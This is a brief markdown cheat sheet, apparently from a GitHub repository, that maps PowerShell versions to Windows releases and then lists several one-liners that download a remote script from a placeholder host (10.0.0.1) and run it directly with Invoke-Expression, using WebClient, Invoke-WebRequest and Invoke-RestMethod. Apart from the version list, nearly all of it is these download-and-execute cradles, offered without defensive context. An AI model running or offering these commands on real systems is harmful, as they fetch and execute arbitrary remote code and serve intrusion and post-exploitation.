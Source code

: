 ## Uses for Invoke-Expression en Invoke-WebRequest, Invoke-RestMethod and WebClient

### Powershell Versions
```ps
$PSVersionTable
```
- Powershell 1.0 – Windows Vista / 2008
- Powershell 2.0 – Windows 7 / 2008 R2
- Powershell 3.0 – Windows 8 / 2012
- Powershell 4.0 – Windows 8.1 / 2012 R2
- Powershell 5.0 – Windows 10

### Powershell v1.0/v2.0
```ps
IEX (New-Object Net.WebClient).DownloadString('URL')
```

### Powershell v3.0 and later
```ps
Invoke-WebRequest -Uri 'http://10.0.0.1/sysinfo.txt' -UseBasicParsing | IEX
```
```ps
Invoke-RestMethod -Method Get -Uri 'http://10.0.0.1/sysinfo.txt' | IEX
IEX (Invoke-RestMethod -Method Get -Uri 'http://10.0.0.1/sysinfo.txt')
```
```ps
IEX (Invoke-WebRequest -Uri 'http://10.0.0.1/sysinfo.txt' -UseBasicParsing)
```
```ps
Invoke-WebRequest -Uri 'http://10.0.0.1/sysinfo.txt' -UseBasicParsing | Select-Object Content | IEX
```
```ps
IEX (Invoke-WebRequest -Uri 'http://10.0.0.1/sysinfo.txt' -UseBasicParsing).Content
```